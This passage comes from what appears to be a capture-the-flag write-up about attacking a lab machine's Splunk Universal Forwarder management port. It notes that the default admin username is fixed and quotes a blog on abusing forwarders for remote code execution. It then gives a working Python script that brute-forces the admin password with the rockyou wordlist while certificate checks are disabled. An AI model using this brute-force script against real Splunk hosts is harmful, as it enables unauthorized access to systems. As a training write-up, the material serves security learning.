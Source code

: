 Needed to use https. After accepting the security warnings about the self-signed certificates was led to a Splunk Atom Feed.  Says Splunk build: 8.0.5

![](/assets/img/2-splunkd-login.png)

I tried clicking on the services link, but was prompted to enter credentials

[https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

> Universal Forwarder is accessible on each host at [https://host:8089](https://host:8089). Accessing any of the protected API calls, such as /service/ pops up a Basic authentication box. The username is always admin, and the password default used to be changeme until 2016 when Splunk required any new installations to set a password of 8 characters or higher.

Crafting a python password brute force tool

* [https://requests.readthedocs.io/en/master/user/advanced/\#ssl-cert-verification](https://requests.readthedocs.io/en/master/user/advanced/#ssl-cert-verification)
* [https://stackoverflow.com/questions/15445981/how-do-i-disable-the-security-certificate-check-in-python-requests](https://stackoverflow.com/questions/15445981/how-do-i-disable-the-security-certificate-check-in-python-requests)

```python
import requests
from urllib3.exceptions import InsecureRequestWarning

headers = {
'Host': '10.10.10.209:8089',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Language': 'en-US,en;q=0.5',
'Accept-Encoding': 'gzip, deflate',
'Connection': 'close',
'Referer': 'https://10.10.10.209:8089/',
'Upgrade-Insecure-Requests': '1',
'DNT': '1',
'Sec-GPC': '1'
}

auth = "Authorization: Basic admin:changeme"

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

print("Starting password brute force...\n")

with open("/home/zweilos/rockyou_utf8.txt", "r") as rockyou:
    for password in rockyou:
            r = requests.get('https://10.10.10.209:8089/services', auth=('admin', password), headers = headers, verify = False)
            if r.status_code == 200:
                print(f"The password is: {password}\n")
                break
            else:
                continue
```